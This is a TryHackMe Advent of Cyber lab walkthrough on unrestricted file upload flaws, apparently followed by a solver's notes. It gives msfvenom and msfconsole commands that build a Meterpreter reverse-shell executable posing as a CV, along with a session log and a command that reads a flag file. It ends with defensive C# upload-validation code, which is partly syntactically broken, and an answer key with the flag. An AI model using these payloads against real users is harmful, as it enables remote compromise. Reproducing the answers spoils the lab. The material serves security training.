


# The Story


Check out InsiderPhD's video walkthrough for Day 15 [here](https://www.youtube.com/watch?v=9Pniza-s1ds)!

# Input Validation

Insufficient input validation is one of the biggest security concerns for web applications. The issue occurs when user-provided input is inherently trusted by the application. Since user input can also be controlled by an attacker, we can see how this inherent trust can lead to many problems. Several web application vulnerabilities, such as SQL Injection, Cross Site Scripting, and Unrestricted File Upload, stem from the issue of insufficient user input validation. This task will focus on how insufficient input validation can lead to an Unrestricted File Upload vulnerability.

# Learning Objectives

- Input validation of file upload funtionality
- Unrestricted file upload vulnerabilities
- Phishing through file uploads
- How to properly secure file upload functionality

# The Unrestricted in Unrestricted File Uploads

The ability to upload files to a server has become integral to how we interact with web applications. Just think of file uploads like a profile picture for a social media website, a report being uploaded to cloud storage, or saving a project on GitHub; the applications for file upload features are limitless.

Unfortunately, when poorly handled, file uploads can also open up severe vulnerabilities in the server. This can lead to anything from relatively minor nuisance problems; all the way up to full Remote Code Execution (RCE) if an attacker manages to upload and execute a shell. With unrestricted upload access to a server (and the ability to retrieve data at will), an attacker could deface or otherwise alter existing content -- up to and including injecting malicious webpages, which lead to further vulnerabilities such as Cross-Site Scripting (XSS) or Cross-Site Request Forgery (CSRF). By uploading arbitrary files, an attacker could potentially use the server to host and/or serve illegal content or to leak sensitive information. Realistically speaking, an attacker with the ability to upload a file of their choice to your server -- with no restrictions -- is very dangerous indeed.

Unrestricted File Uploads usually have two main exploitation paths:
- If the attacker can retrieve the uploaded file, it could lead to code execution if the attacker uploads a file such as a web shell.
- If the file is viewed by a user, think of a CV application, then an attacker could embed malware in the uploaded file that would execute on the user's workstation once they view the file.

There has been quite a lot of focus on RCE through web shells in previous rooms, so in this task, we will focus on the latter exploitation path.

# Santa is Looking for a Sidekick

Santa is looking to hire new staff for his security team and has hired a freelance developer to create a web application where potential candidates can upload their CVs. Elf McSkidy is aware that third-party risks can be serious and has tasked you, Exploit McRed, with testing this application before it goes live. Since the festivities are right around the corner, we will have to focus on the core feature of the website, namely the ability to upload a CV.

Elf McSkidy has provided you with the latest version of the application. Start the machine attached to this task to load the website. Once loaded (roughly 2 minutes), you can navigate to `http://MACHINE_IP/` to view the website, using either the AttackBox or your TryHackMe VPN connection:


As we can see, the website allows us to upload our CVs to apply for a job in Santa's security team. Before we start the actual testing, let's first try to use the website as intended to get a better understanding of what is happening. Using your favourite word editor, create a simple new PDF and upload it to the application. Once uploaded, we can see the following message:



Interesting! The message also tells us that there will be human (or elf, more specifically) interaction with the file. This calls for further investigation!

Let's see what happens when we try to upload something other than a PDF, like an executable. You can rename the file extension of your CV to EXE:


That seems to work! It seems like the freelance developer has attempted to implement some security controls to prevent naughty elves. However, not all controls were implemented. But can we actually do something with this that will be malicious?

# Why the fuss over the Web Root?
So why would the developer take care to store the file outside the web root? Web servers are fairly simple things. You request a resource and the web server then responds with the resource. The magic happens when a request resource has a specific file type. Since this is a .NET application, the following resource types would be considered special:
- ASP
- ASPX
- CSHTML

When a resource is requested with one of these file types, the web server will first execute some instructions found in these pages before sending the compiled response back to the user. Here is an example of an ASPX instruction that would be executed by the server:

```
<form id="Form1" method="post" runat="server" EncType="multipart/form-data" action="Upload.aspx">
```

This tells the server that the HTML element first requires some formatting before being added to the HTML in the response, as can be seen by therunat="server" directive.

If we could upload any file that we wanted, we could upload one of these special types of pages, like an ASPX webshell. If this file was stored in the web root, we could request the file from the server, forcing the server to execute the code within our file before sending the response. It would be possible to get remote code execution on the web server. However, as the file is stored outside of the web root, we cannot make a request that would retrieve our uploaded file for execution. However, this protection is not sufficient for two main reasons:
- Other vulnerabilities, such as local file inclusion, may exist that allow us to force the web server itself to recover the file that was stored outside the web root. If the web server recovers the file, the code within the file will again be executed, allowing for RCE.
- While we cannot perhaps get RCE using this vulnerability, we know with certainty that actual users would interact with the files that we upload. Rather than targeting the web server directly, we could target the users that would interact with these files. If we were to upload a file that had malware embedded, it would execute when the user interacted with the file, still allowing us to breach Santa's perimeter!

# Shell from Santa

Let's try to target one of Santa's elves that would be reviewing the uploaded CVs. In most cases, we would have to be quite creative with the malware that we upload, especially since this is for an application to a security role! This will require us to create a CV with a malicious macro embedded. However, since we are on Santa's red team and this is a security assessment, we only need to show proof of concept. Let's use Metasploit to generate a malicious CV:

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT="Listening port" -f exe -o cv-username.exe
```

You can then also use the following to create the associated listener in the msfconsole:

```
sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 'listening port'; exploit"
```

Once we have our CV, we can upload the file again. Once uploaded, give it a few minutes, and one of those elves should be reviewing our CV:

```
[*] Started reverse handler on 10.50.1.120:4444 [*] Starting the payload handler... [*] Sending stage (770048 bytes) to 10.10.1.20 [*] Meterpreter session 1 opened (10.50.1.120:4444 -> 10.10.1.20:1138) at 2022-10-22 19:03:43 -0500 meterpreter >
```

This is sufficient for a proof of concept for Elf McSkidy to take to Santa and request that additional security controls must be implemented on the application! Using your shell, go read the flag from the specific elf's home directory.

# Properly Securing File Uploads

To adequately secure the file upload feature, we will need to implement layers of defence. In this task, we will use a C# file upload as the case study. C# is a popular language used to create both Windows application and web applications at large organisations. Let's look at our base file upload function first:

```
public IActionResult OnPostUpload(FileUpload fileUpload)
    {   
        var fullPath = "D:\CVUploads\"
        var formFile = fileUpload.FormFile;
        var filePath = Path.Combine(fullPath, formFile.FileName);

        using (var stream = System.IO.File.Create(filePath))
            {
                formFile.CopyToAsync(stream);
            }
    }
```

As we can see, the developer made sure to store the CV outside the web root by setting the full path to a different drive (D:\CVUploads). However, this is not sufficient. Let's take a look at what additional controls can be implemented:

## File Content Validation
We can validate the content of the file by reviewing the ContentType header that is sent by the browser when a file is uploaded:

```
string contentType = fileUpload.ContentType.Split('/')[1].ToLower();
if !(contentType.equals("ContentType=PDF")
    {
        allowed = False;
    }
```

If the file content type is not PDF, we will reject the file. While this is a good control, it should be noted that since the browser sets this header, an attacker could bypass this control by intercepting the request and changing the header.

## File Extension Validation
We can also verify the file extension. This will allow us to limit the type of files that can be uploaded. We can therefore add the following lines to our code:

```
string contentExtension = Path.GetExtension(fileUpload);
if !(contentExtension.equals("PDF"))
    {
        allowed = False;
    }
```

This will limit the file types to only PDFs. If a user's CV is in a different format, they will have to convert their CV first. This control should ideally be implemented with an allowlist, as shown above, since a blocklist can still be bypassed in certain cases.

## File Size Validation
Attackers can also try to upload files that are so large it consumes so much disk space that other potential candidates are not able to upload their CVs. To prevent this, we can implement file size validation controls:

```
int contentSize = fileUpload.ContentLength;
//10Mb max file size
int maxFileSize = 10 * 1024 * 1024
if (contentSize > maxFileSize)
    {
        allowed = False;
    }
```

This will only allow file sizes smaller than the specified amount.

## File Renaming
As mentioned before, even though our uploads are stored outside the web root, an attacker could leverage an additional vulnerability, such as file inclusion, to execute the file. To counter these attempts, we can look to rename uploaded files to random names, making it almost impossible for an attacker to recover their file by name:

```
Guid id = Guid.NewGuid();
var filePath = Path.Combine(fullPath, id + ".pdf");
```
## Malware Scanning

Even with all of the above controls implemented, there is still the risk of an attacker uploading a malicious file that targets the elves that will review the CVs. Since Santa is a high-value individual, some nation-states might even use specialised exploits found in PDF readers to upload a malicious PDF in the hopes of getting access to remove themselves from Santa's naughty list! In order to combat these types of malicious files, we can scan uploaded files for malware. We can install a package such as ClamAV and use it to scan the contents of each uploaded file:

```
var clam = new ClamClient(this._configuration["ClamAVServer:URL"],Convert.ToInt32(this._configuration["ClamAVServer:Port"])); 
var scanResult = await clam.SendAndScanFileAsync(fileBytes);  
  
if (scanResult.Result == ClamScanResults.VirusDetected)
    {
        allowed = False;
    }; 
```

# Putting it all Together
Combining all of the above techniques, we can implement a secure file upload function, as shown below:

```
public IActionResult OnPostUpload(FileUpload fileUpload)
    {
        var allowed = True;

        //Store file outside the web root   
        var fullPath = "D:\CVUploads\"

        var formFile = fileUpload.FormFile;

        //Create a GUID for the file name
        Guid id = Guid.NewGuid();
        var filePath = Path.Combine(fullPath, id + ".pdf");

        //Validate the content type
        string contentType = fileUpload.ContentType.Split('/')[1].ToLower();
        if !(contentType.equals("ContentType=PDF")
            {
                allowed = False;
            }

       //Validate the content extension
       string contentExtension = Path.GetExtension(fileUpload);
       if !(contentExtension.equals("PDF"))
           {
               allowed = False;
           }

       //Validate the content size
       int contentSize = fileUpload.ContentLength;
       //10Mb max file size
       int maxFileSize = 10 * 1024 * 1024
       if (contentSize > maxFileSize)
           {
               allowed = False;
           }

       //Scan the content for malware
       var clam = new ClamClient(this._configuration["ClamAVServer:URL"],Convert.ToInt32(this._configuration["ClamAVServer:Port"])); 
       var scanResult = await clam.SendAndScanFileAsync(fileBytes);  
  
       if (scanResult.Result == ClamScanResults.VirusDetected)
           {
                allowed = False;
           };

       //Only upload if all checks are passed
       if (allowed)
       {
            using (var stream = System.IO.File.Create(filePath))
                {
                    formFile.CopyToAsync(stream);
                }
       }
    }
```

All of these controls are required for the simple reason that we cannot inherently trust user input. As such, user input must be validated and controlled! Sending this feedback to the freelance developer will allow them to secure the file upload feature!

===============================================================================

# Questions

> What is the name given to file uploads that allow threat actors to upload any files that they want?

    Answer: unrestricted

> What is the title of the web application developed by Santa's freelancer?

    Answer: Santasidekick2

> What is the value of the flag stored in the HR Elf's Documents directory?

    Answer: THM{Naughty.File.Uploads.Can.Get.You.RCE}

> What defence technique can be implemented to ensure that specific file types can be uploaded?

    Answer: file extension validation

> What defence technique can be used to make sure the threat actor cannot recover their file again by simply using the file name?

    Answer: file renaming

> What defence technique can be used to make sure malicious files that can hurt elves are not uploaded?

    Answer: malware scanning

> If you want to learn more about vulnerabilities like this one, check out our [Intro to Web Hacking][1] module! 

    This task has no answer needed.

[1]:https://tryhackme.com/module/intro-to-web-hacking
===============================================================================

To begin, deploy both the attack-box and virtual machine.


Open firefox and navigate to `http://MACHINE_IP/`:


Create the malicious file by running the commands from the walkthrough:  
`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT="4444" -f exe -o cv-username.exe`

`sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT '4444'; exploit"`

then go to the website and upload the file while having the listener on:


Wait a while for the reverse shell to start and you will get a meterpreter session:



Run the following to get the flag:  
`cat C:\\Users\\HR_Elf\\Documents\\flag.txt`


Answers to the defence techniques can be found within the walkthrough itself.